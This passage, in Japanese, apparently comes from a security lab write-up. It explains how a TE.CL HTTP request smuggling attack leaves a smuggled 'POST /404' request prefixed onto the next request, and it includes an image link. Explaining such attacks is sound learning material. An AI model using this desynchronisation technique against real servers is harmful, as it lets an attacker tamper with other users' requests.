

`TE.CL`なので、全てのリクエストがBack-endに転送され、Back-endは`Content-Length`を見るためContent-Length: 4で、`5e`までを１つのリクエストとして認識します。

そのため`POST /404 HTTP/1.1 ...`が浮き後続のリクエストの先頭につくため、`404`にたいしてのリクエストが出来上がります。


